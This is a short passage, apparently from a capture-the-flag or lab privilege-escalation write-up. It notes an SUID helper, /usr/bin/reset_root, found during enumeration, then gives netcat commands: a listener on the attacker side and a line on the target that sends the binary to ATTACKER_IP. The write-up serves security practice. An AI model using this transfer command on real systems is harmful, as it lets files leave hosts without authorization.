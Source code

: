 ![Enumeration revealed SUID binary](images/find_reset_root.png)

![Inspecting required files for `reset_root` execution](images/check_cat.png)

**Found example:** `/usr/bin/reset_root` (SUID helper or script of interest)

### Safer offline analysis
Transfer the binary/script to your machine for offline analysis.

**File transfer (netcat method):**
On attacker:
```bash
  nc -lnvp 4444 > reset_root
```
On target:
```bash
  nc ATTACKER_IP 4444 < /usr/bin/reset_root
```